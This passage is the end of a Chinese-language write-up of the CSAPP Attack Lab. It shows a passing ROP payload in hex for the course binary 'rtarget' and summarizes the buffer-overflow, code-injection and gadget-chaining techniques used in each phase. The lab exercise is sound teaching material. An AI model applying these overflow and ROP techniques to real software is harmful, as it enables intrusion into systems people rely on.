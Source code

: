 最终结果如下：

```bash
Cookie: 0x59b997fa
Type string:Touch3!: You called touch3("59b997fa")
Valid solution for level 3 with target rtarget
PASS: Would have posted the following:
        user id bovik
        course  15213-f15
        lab     attacklab
        result  1:PASS:0xffffffff:rtarget:3:00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 06 1A 40 00 00 00 00 00 C5 19 40 00 00 00 00 00 AB 19 40 00 00 00 00 00 48 00 00 00 00 00 00 00 DD 19 40 00 00 00 00 00 69 1A 40 00 00 00 00 00 13 1A 40 00 00 00 00 00 D6 19 40 00 00 00 00 00 C5 19 40 00 00 00 00 00 FA 18 40 00 00 00 00 00 35 39 62 39 39 37 66 61 00
```

通过！

## 总结

1. phase 1 很简单，让 buffer overflow 溢出，然后覆盖返回地址即可
2. phase 2 需要让`%rdi`的值等于`cookie`的值，我们需要插入一部分自己的攻击代码，比 Phase 1 难度稍微高点
3. phase 3 中我们需要插入自己的攻击字符串，然后让`ret`指令返回到攻击代码开始处，通过指令将`%rdi`的值设置为攻击字符串的地址，并且把`touch3`的地址压到栈上。这里的难点在于`hexmatch`和`strncmp`中出现了`push`的压栈操作，并且使用了一段随机的 buffer，如果把攻击字符串放在攻击代码之前，会导致攻击字符串被破坏。因此这里的核心是把攻击字符串放在 caller 函数(`test`)的栈空间内（在返回地址下面），然后让`%rdi`指向这里
4. phase 4 & phase 5 的难点在于将过程理清楚，并且在`rtarget`中找到对应的`gadget`，将栈上作为`gadget`地址和数值的组合，巧妙地运用`popq`和`ret`和其他指令组合出我们想要的操作。
5. phase 5 的核心在于首先确定`rax = rdi + rsi`，并且这两个寄存器一个存储`%rsp`，一个存储偏移量。要将数据输入到这两个寄存器，随后不断的通过反推，找到以他们为目标地址的指令通用结构，在`rtarget`中查找到相关指令，然后确定其源寄存器。再来反推什么指令能将数据输送到源寄存器。打通一条通路，然后确定每个 gadget 的地址，最后串联起来就是我们想要的 gadget 列表！这个过程收获很大！

虽然做这 5 个 Phase 的过程不容易，但是总体来说受益匪浅！

## 参考资料

- [CSAPP 实验之 attack lab](https://zhuanlan.zhihu.com/p/60724948)
- [CSAPP | Lab3-Attack Lab 深入解析](https://zhuanlan.zhihu.com/p/476396465)
- [csapp-attacklab 详解](https://zhuanlan.zhihu.com/p/410418053)

